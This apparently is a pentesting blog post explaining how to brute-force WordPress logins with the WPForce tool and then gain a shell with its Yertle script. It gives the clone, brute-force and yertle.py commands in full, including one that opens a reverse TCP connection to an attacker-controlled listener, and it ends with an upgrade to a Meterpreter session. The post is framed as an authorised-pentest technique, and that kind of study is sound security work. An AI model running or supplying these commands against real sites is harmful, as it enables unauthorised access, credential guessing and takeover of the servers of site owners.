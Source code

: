 ```yaml
---
title:  "Reverse Shell in Wordpress with WPForce"
date:   2021-08-08 18:20:00 +0100
categories: [techniques]
tags: [web exploitation,wordpress]
---
```



Reverse Shell in Wordpress with WPForce and Yertle

Imagine the scenario where you are presented with a WordPress site during a pentest and want to get in.   
Standard 'author?' requests don't give you the name of any users and you need to look else where.   
One nice alternative to using WPScan to brute force the username and password field is WPForce.   
Taken from the WPForce website, link: [WPFORCE](https://www.n00py.io/category/pentesting 'WP-FORCE')


"
Unlike WPScan, which performs brute force login attempts against the login page of WordPress, WPForce uses authenticated API calls to test the validity of credentials.  While most security plugins are wise to this method, it does provide slightly more stealth.
"


So first, clone yourself a copy of WPForce

`git clone https://github.com/n00py/WPForce.git`

Once downloaded, parse the user, password and website deatils:

`python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com"`

Once the script completes hopefully the Username and Password is dicovered. However if not choose different word-lists that are more appropriate to your scenario, maybe you get lucky.


![img-description](/images/WPForce-1.png)
_executing the script_

![img-description](/images/WPForce-2.png)
_Example of a PAssword Found sucessfully_

Having figured out the username and password to a Wordpress CMS site and now want to gain a shell.   

Normally you would either have to circumvent the upload restrictions on the Wordpress page, which can be time consuming with a lot of trial and error or disguise an upload file within a custom built plugin. Again something potentially time consuming to achieve, this is where WPForce comes in.    

WPForce is a useful tool that will create an interactive shell or a reverse TCP connection to a meterpreter listener. It also has lots of other interesting features like hooking to the BEEF Framework.    

To start with, make sure you have the python 'Requests' HTTP libraries installed, you can install them using PIP.   

`pip install requests`

[DOCS](http://docs.python-requests.org/en/master/user/install 'Documentation Here')

Now we are set lets start..   

`Arguments - -t URL, -u username, -p password, -v verbose, -li localhost, -lp localport, -r reverse or -i interactive, -a User Agent.`

`python yertle.py -t http://192.168.0.122/wordpress -u admin -p admin -v -li 192.168.0.100 -lp 80 -r`

![img-description](/images/Yertle-1.png)
_Executing The Script_

From here we have an interactive shell with limited functionality.   

![img-description](/images/Yertle-2.png)
_Interactive Shell_

A simple directory listing from within the web server from an interactive shell.   

![img-description](/images/Yertle-3.png)
_Interactive Shell_

Now setup a Meterpreter listener to wait for our connection.   

![img-description](/images/Yertle-5.png)
_Interactive Shell_

Now we simply type 'meterpreter' and add the IP and Port details.   

![img-description](/images/Yertle-6.png)
_Interactive Shell_

We receive the meterpreter session in metasploit.   

![img-description](/images/Yertle-7.png)
_Interactive Shell_

Now we can continue our enumeration from Metasploit.   


